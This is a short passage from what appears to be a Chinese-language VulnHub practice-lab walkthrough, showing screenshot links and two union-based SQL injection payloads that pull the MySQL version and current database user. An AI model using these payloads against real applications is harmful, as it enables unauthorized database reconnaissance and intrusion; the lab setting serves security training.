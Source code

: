 ![image-20241207183310421](vulnhub靶场实战/image-20241207183310421.png)	

```
收集数据库版本信息
' union select 1,2,3,version(),5,6,7,8#
```

![image-20241207183420485](vulnhub靶场实战/image-20241207183420485.png)	

```
收集mysql当前用户。
' union select 1,2,3,user(),5,6,7,8#
```
